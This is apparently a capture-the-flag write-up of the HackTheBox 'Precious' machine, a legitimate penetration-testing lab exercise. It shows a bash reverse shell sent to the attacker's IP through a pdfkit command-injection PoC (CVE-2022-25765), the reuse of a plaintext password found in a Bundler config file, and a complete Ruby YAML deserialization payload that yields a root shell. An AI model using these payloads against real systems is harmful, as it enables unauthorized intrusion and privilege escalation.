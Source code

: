 ```yaml
---
render_with_liquid: false
title: HackTheBox Writeup  Precious
date: 2023-01-13 23:15:20 +1400
tags: [hackthebox, linux, nmap, gobuster, pdf, exiftool, pdfkit, cve-2022-25765, command-injection, clear-text-credentials, sudo, ruby-script, deserialization, yaml, yaml_load]
---
```




Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.


# Recon


## nmap

```bash
┌──(root㉿kali)-[~/precious]
└─# cat precious.nmap

# Nmap 7.93 scan initiated Fri Jan 13 23:12:59 2023 as: nmap -sV -sC -Pn -T4 -oA precious -p- -v precious.htb
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Fri Jan 13 23:15:20 2023 -- 1 IP address (1 host up) scanned in 141.67 seconds
```


## Dir

Nothing Found

```bash
gobuster dir -u http://precious.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -e -k -r
```


# User Flag


## Web Page

![](/assets/obsidian/d56b8fa0670a1224cf542b6d104ff28b.png)

- It's using https://github.com/phusion/passenger as web&app server

Start http server

```
python3 -m http.server 80
```

Load `http://$ATTACKER_IP` from the website

Download PDF

Exiftool
```bash
┌──(root㉿kali)-[~/precious]
└─# exiftool ls2cy7jyjn83bzdv4vu065sk47x7qenx.pdf 
ExifTool Version Number         : 12.52
File Name                       : ls2cy7jyjn83bzdv4vu065sk47x7qenx.pdf
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2023:01:13 23:38:53-05:00
File Access Date/Time           : 2023:01:13 23:38:53-05:00
File Inode Change Date/Time     : 2023:01:13 23:48:15-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```
- Generated by pdfkit v0.8.6


## pdfkit  RCE (CVE-2022-25765)

Search `pdfkit exploit` on google

https://github.com/LordRNA/CVE-2022-25765

Make Sure Exploit is working

![](/assets/obsidian/d37608e48178c44db69ef668154d8189.png)


## Reverse Shell

```bash
┌──(root㉿kali)-[~/precious]
└─# python poc.py -u http://precious.htb -c "bash -c 'bash -i >& /dev/tcp/10.10.14.10/1111 0>&1'"
```

```bash
┌──(root㉿kali)-[~/precious]
└─# rlwrap nc -lvnp 1111 | tee -a nc.log
listening on [any] 1111 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.189] 57140
ruby@precious:/var/www/pdfapp$ 
```


## Ruby to Henry User

3 Users

```bash
cat /etc/passwd|grep sh$

root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

Found Henry's password on `~/.bundle/config`

```bash
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ 
```

```bash
ruby@precious:/var/www/pdfapp$ su - henry
su - henry
Password: Q3c1AqGHtoI0aXAYFH
ls -la
total 24
drwxr-xr-x 2 henry henry 4096 Oct 26 08:28 .
drwxr-xr-x 4 root  root  4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root  root     9 Sep 26 05:04 .bash_history -> /dev/null
-rw-r--r-- 1 henry henry  220 Sep 26 04:40 .bash_logout
-rw-r--r-- 1 henry henry 3526 Sep 26 04:40 .bashrc
-rw-r--r-- 1 henry henry  807 Sep 26 04:40 .profile
-rw-r----- 1 root  henry   33 Jan 14 00:37 user.txt
cat user.txt
975967090dad946dd01c26aa8046c949
```


# Root Flag


## Analyze ruby script

```bash
(remote) henry@precious:/home/henry$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Ruby Script

```bash
(remote) henry@precious:/home/henry$ cat /opt/update_dependencies.rb

# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'


# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

`YAML.load` -> Deserialization Attack

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md


## Unsecure YAML Deserialization

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash -i
         method_id: :resolve                             
```

Use `/bin/bash -i` or `chmod +s /bin/bash` then run `/bin/bash -p`

```bash
(remote) henry@precious:/home/henry$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/home/henry# cd /root
root@precious:~# cat root.txt
e117c0c71070d10221de97bae79e1d4a
root@precious:~# 
```